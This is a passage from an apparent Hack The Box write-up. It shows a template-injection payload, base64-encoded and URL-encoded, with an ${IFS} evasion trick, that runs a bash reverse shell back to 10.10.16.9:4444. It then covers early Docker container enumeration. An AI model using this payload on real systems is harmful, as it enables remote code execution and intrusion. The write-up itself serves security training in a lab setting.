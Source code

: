 ````
e3tzZWxmLl9UZW1wbGF0ZVJlZmVyZW5jZV9fY29udGV4dC5uYW1lc3BhY2UuX19pbml0X18uX19nbG9iYWxzX18ub3MucG9wZW4oJ3t7c2VsZi5fVGVtcGxhdGVSZWZlcmVuY2VfX2NvbnRleHQubmFtZXNwYWNlLl9faW5pdF9fLl9fZ2xvYmFsc19fLm9zLnBvcGVuKCdlY2hvJHtJRlN9WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0NUx6UTBORFFnTUQ0bU1Rbz0ke0lGU318YmFzZTY0JHtJRlN9LWR8YmFzaCcpLnJlYWQoKX19JykucmVhZCgpfX0gCg==
````

We have to note that the command in self is echoing, decoding the payload and then passing it to bash. Instead of an space we put '${IFS}'.

Then, as we are going to send this through a HTTP request we have to URL encoded it with the BurpDecoder:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221126143609.png' | relative_url }}" text-align="center"/>
</div>

The payload in its totality previous to the send looks like follows:

```URL
%7b%7b%73%65%6c%66%2e%5f%54%65%6d%70%6c%61%74%65%52%65%66%65%72%65%6e%63%65%5f%5f%63%6f%6e%74%65%78%74%2e%6e%61%6d%65%73%70%61%63%65%2e%5f%5f%69%6e%69%74%5f%5f%2e%5f%5f%67%6c%6f%62%61%6c%73%5f%5f%2e%6f%73%2e%70%6f%70%65%6e%28%27%65%63%68%6f%24%7b%49%46%53%7d%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%69%34%35%4c%7a%51%30%4e%44%51%67%4d%44%34%6d%4d%51%6f%3d%24%7b%49%46%53%7d%7c%62%61%73%65%36%34%24%7b%49%46%53%7d%2d%64%7c%62%61%73%68%27%29%2e%72%65%61%64%28%29%7d%7d
```

<br />

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221126143736.png' | relative_url }}" text-align="center"/>
</div>

And then, we gain a reverse shell:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221126143755.png' | relative_url }}" text-align="center"/>
</div>

Briefly enumeration show  er are in a Docker Container:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221126144004.png' | relative_url }}" text-align="center"/>
</div>

Further enumeration shows that exists a directory on /home called augustus that is owned y other UIP that root's:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221126144220.png' | relative_url }}" text-align="center"/>
</div>

This is kind of strange since we are in a Docker container that only have the minimun to run an application. This could be a user's home directory mounted inside the docker container from the main system. This could be verified with the 
mount command:
